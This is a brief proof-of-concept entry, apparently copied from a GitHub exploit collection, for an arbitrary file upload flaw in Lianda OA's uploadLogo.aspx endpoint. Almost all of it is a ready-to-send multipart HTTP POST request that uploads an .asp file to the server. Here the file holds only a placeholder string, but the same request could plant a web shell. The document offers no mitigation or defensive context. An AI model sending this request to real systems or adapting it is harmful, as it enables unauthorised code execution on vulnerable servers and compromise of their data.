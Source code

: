 # lianda_uploadLogo_fileupload

2024.4.1 @2
from : https://github.com/wy876/POC/blob/main/%E8%81%94%E8%BE%BEOA%20uploadLogo.aspx%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0.md
```
POST /Hosp_Portal/uploadLogo.aspx HTTP/1.1
Host: 
Content-Length: 191
Content-Type: multipart/form-data; boundary=------------------------OFkXeLxrBXIgRvlvsZIFniBVqbRidnzdYBsZRzuA
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36

--------------------------OFkXeLxrBXIgRvlvsZIFniBVqbRidnzdYBsZRzuA
Content-Disposition: form-data; name="DesignId"

1
--------------------------OFkXeLxrBXIgRvlvsZIFniBVqbRidnzdYBsZRzuA
Content-Disposition: form-data; name="Filedata";filename="123.asp"

123
--------------------------OFkXeLxrBXIgRvlvsZIFniBVqbRidnzdYBsZRzuA--
```
